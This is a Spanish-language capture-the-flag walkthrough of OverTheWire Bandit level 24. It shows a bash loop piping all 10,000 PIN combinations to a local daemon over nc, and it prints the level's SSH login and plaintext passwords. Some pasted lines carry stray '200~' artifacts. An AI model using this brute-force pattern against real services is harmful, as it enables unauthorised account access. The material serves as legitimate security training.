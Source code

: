 Level 24 
# Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
# Datos  de Acceso 
ssh bandit24@**bandit.labs.overthewire.org** -p2220

User: bandit24 Pass: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
# Solucion 

```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
^C
bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0000
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0001
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0002
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0003
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0004
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Timeout. Exiting.
bandit24@bandit:~$ for i in {0000..9999}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d


^C
bandit24@bandit:~$

```

# Notas Adicionales
- echo sirve para dadas en su salida estándar, con un espacio en blanco entre cada una y un carácter "salto de línea" después de la última cadena
- nc  permite acceder a puertos TCP o UDP de la propia máquina o de otras máquinas remotas.
- grep nos permite filtrar y eliminar la información inútil que se produce tras ejecutar un comando. 